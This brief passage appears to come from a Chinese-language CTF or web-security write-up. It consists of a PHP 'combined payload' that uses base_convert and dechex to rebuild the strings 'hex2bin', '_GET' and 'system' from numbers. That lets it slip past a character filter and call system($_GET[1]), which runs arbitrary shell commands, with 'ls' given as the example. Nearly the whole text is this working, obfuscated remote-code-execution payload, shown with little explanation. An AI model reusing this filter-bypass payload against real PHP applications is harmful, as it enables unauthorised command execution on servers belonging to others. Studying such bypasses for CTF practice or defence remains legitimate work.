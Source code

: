 **组合Payload:**

```php
// 目标: system($_GET[1]);
// URL: ?c=...&1=ls

?c=$a=base_convert(37907361743,10,36); // $a = 'hex2bin'
$b=$a(dechex(1598506324)); // $b = hex2bin('5f474554') -> '_GET'
$c=$$b; // $c = $_GET
$d=base_convert(1751504350,10,36); // $d = 'system'
$d($c[1]); // system($_GET[1]) -> system('ls')
```